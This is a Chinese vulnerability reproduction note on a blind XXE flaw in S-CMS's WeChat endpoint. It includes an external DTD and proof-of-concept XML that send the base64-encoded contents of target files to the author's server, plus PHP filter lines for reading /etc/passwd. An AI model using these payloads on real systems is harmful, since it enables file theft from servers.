 ```yaml
---
title: S-CMS xxe漏洞
id: zhfly3107
---
```


# S-CMS xxe漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![image](../img/50c03498c88f96176dfd735791511838.png)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

```
<!ENTITY % all 
	"<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
>
%all; 
```

发送POC

```
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
	<!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
%dtd;
%send;
]> 
```

![image](../img/0a10d8369737adb8464a2856db791ea2.png)

然后在Apache日志中查看到结果：

![image](../img/7bd0c3bf2dccc5c43ac6feae8f2642bf.png)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1"); 
```

## 参考链接

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/